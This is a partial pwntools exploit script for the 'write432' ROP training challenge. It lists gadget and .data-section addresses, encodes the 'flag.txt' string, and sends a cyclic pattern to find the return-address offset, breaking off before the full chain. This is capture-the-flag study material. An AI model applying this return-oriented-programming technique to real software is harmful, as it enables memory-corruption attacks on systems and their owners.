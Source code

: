 ### The 32 bit python script

```python
from pwn import *

##### SETUP & RUN #####

#Define the executable
exe = './write432'

# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)

# verbose logging so we can see what is being sent
context.log_level = 'info'

#delete corefiles after crash occurs
context.delete_corefiles = True

# run the elf
io = process()

##### FIND USEFUL ADDRESSES #####

# Locate the functions/strings we need - either do this manually or using pwntools

# Address needed to put parameters in registers
datasection = 0x0804a018
mov_gadget = 0x08048543
pop_gadget = 0x080485aa
flagstr = 0x67616C66
txtstr = 0x7478742E    # writing text to memory requires little endian so it can be converted to big
print_file = 0x080483d0
junkaddr = 0x61616161

# junkaddr is needed as we are calling the function print_file, we don't need this
# if we use the address of "call print_file@plt" instead of "print_file@plt" as
# the functionality of call is then done for us (writing return address to stack)

call_print_file = 0x08048538

# Print out the target address
info("%#x writable .data section", datasection)
info("%#x mov DWORD[edi], ebp", mov_gadget)
info("%#x pop edi ; pop ebp ; ret", pop_gadget)
info("%#x flag string", flagstr)
info("%#x .txt string", txtstr)
info("%#x print_file function", print_file)
info("%#x call print_file", call_print_file)

info("%#x random junk address", junkaddr)



##### FIND CRASH OVERWRITE RETURN ADDRESS OFFSET #####

# We will send a 'cyclic' pattern which overwrites the return address on the stack
payload = cyclic(100)

# Send cyclic pattern to crash it
io.sendlineafter('> ', payload)

```